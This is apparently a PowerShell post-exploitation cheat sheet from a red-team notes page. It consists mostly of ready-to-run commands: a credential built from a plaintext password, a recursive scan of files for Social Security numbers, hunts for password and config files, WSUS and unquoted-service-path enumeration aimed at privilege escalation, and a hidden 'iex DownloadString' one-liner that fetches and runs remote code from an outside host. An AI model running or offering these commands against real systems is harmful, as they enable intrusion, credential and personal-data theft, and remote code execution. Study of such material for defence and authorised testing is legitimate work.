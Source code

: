 ```
    powerpick $password = ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential ("domain\name", $password);
```

Search for SSN

https://technet.microsoft.com/en-us/library/2008.04.securitywatch.aspx

```
    $SSN_Regex = " [0-9]{3}[-| ][0-9]{2}[-| ][0-9]{4}" ; Get-ChildItem . -Recurse -exclude *.exe,*.dll| Select-String -Pattern $SSN_Regex | Select-String -Pattern $SSN_Regex| Select-Object Path,Filename,Matches |ft -auto|out-string -width 200; "[*] SSN Search Complete!"
```

Enumerate the use of the Windows Server Update Services (WSUS)

```
    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUServer

    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUStatusServer

    Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU" |Select-Object -ExpandProperty UseWUServer

    reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
```

Get unquoted service paths

```
    gwmi win32_service |Select pathname | Where {($_.pathname -ne $null)} | Where {-not $_.pathname.StartsWith("`"")} | Where {($_.pathname.Substring(0, $_.pathname.IndexOf(".") +4)) -match ".* .*"}
```

#### Find-Files (custom)

```
    Find-Files -searchBase "i:\" -searchTerms "*web.xml*,*web.config*,*password*,*tomcat-users.xml*" -LogPath "C:\Users\username\AppData\Local\Temp"
```

#### Get-Enumeration (custom)

Run Local and Domain enumeration functions on the local host.

```
    Get-Enumeration -Path . -Local -Domain
```

#### Download and execute IEX

```
    powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')"
```
